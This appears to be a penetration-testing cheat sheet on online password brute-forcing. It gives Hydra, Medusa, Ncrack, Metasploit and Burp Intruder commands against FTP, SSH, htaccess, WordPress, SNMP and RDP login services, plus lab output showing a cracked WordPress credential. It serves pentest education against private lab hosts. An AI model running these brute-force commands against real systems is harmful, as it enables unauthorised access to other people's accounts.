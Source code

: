 # Online Password Cracking

There are several tools specialized for bruteforcing online. There are several different services that are common for bruteforce. For example: VNC, SSH, FTP, SNMP, POP3, HTTP.

> [https://tools.kali.org/password-attacks/hydra](https://tools.kali.org/password-attacks/hydra)

## Port 21 - FTP

```text
hydra -L users.txt -e nsr 192.168.56.102 ftp
# -e nsr try "n" null password, "s" login as pass and/or "r" reversed login
```

## Port 22 - SSH

```text
# Test a users list to find a user
msf > use auxiliary/scanner/ssh/ssh_enumusers

# Hydra
hydra -l root -P wordlist.txt 192.168.0.101 ssh
hydra -L userlist.txt -P best1050.txt 192.168.1.103 -s 22 ssh -V

# Example on kioptrix 3
hydra -e nsr -l loneferret -P /root/Desktop/wordlists/10_million_password_list_top_100000.txt 192.168.1.70 ssh -t 4

# Medusa 
# -e ns for additional password checks ([n] No Password, [s] Password = Username)
# -f Stop scanning host after first valid username/password found
# -M to specify the module to execute ie SSH
medusa -h 192.168.56.103 -U users.txt -P /usr/share/wordlists/rockyou.txt -e ns -f -M ssh
```

## Port 80/443 htaccess

You can password protect directories with apache pretty easily. Just configure the htaccess \(I exaplin this in the chapter on Common ports\).

It can then be brute forced like this:

```text
medusa -h 192.168.1.101 -u admin -P wordlist.txt -M http -m DIR:/test -T 10
```

### Logins

Use Burp suite.

1. Intecept a login attempt.
2. Right-lick "Send to intruder". Select Sniper if you have nly one field you want to bruteforce. If you for example already know the username. Otherwise select cluster-attack.
3. Select your payload, your wordlist.
4. Click attack.
5. Look for response-length that differs from the rest.

#### Wordpress with hydra

Using BurpSuite, intercept a login attempt:

```text
POST /wp-login.php HTTP/1.1
Host: 192.168.2.4
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.4/wp-login.php
Cookie: s_cc=true; s_fid=7F27FDE8AFB035AA-13A01347AD602162; s_nr=1550824589386; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

log=user&pwd=pass&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.2.4%2Fwp-admin%2F&testcookie=1
```

We can bruteforce it using hydra:

```text
$ hydra -vV -L wordslist.txt -p wedontcare 192.168.2.4 http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username'
```

* **-vV** : Verbose
* **-L wordslist.txt** : Try all the usernames from the file wordslist.txt
* **-p wedontcare** : Use an unique password, it doesn’t matter \(we’re only interested in the username for now\)
* **192.168.2.4** : The IP of the machine we’re attacking
* **http-post-form** : What we’re trying to brute force, here a HTTP POST form
* **‘/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=Invalid username’**
  * **/wp-login.php** : The path to where the form is located
  * **log=^USER^&pwd=^PASS^&wp-submit=Log+In** : The POST parameters to send. ^USER^ and ^PASS^ are placeholders that wiil be replaced with the actual values.
  * **F=Invalid username** : Consider an attempt as a failure \(F\) if the response contains the text _Invalid username_

After a few minutes, we get:

```text
[80][http-post-form] host: 192.168.124.139   login: elliot   password: wedontcare
```

Now we know there is a WordPress user named **elliot**. Let’s try to bruteforce his password using the same technique and word list:

```text
$ hydra -vV -l elliot -P wordslist.txt vm http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=is incorrect'
[...]
[80][http-post-form] host: 192.168.2.4 login: elliot password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

## Port 161 - SNMP

```text
hydra -P wordlist.txt -v 102.168.0.101 snmp
```

## Port 3389 - Remote Desktop Protocol

For RDP we can use Ncrack.

```text
ncrack -vv --user admin -P password-file.txt rdp://192.168.0.101
hydra -V -f -L /root/Desktop/user.txt -P /root/Desktop/dict.txt rdp://192.168.0.101
```

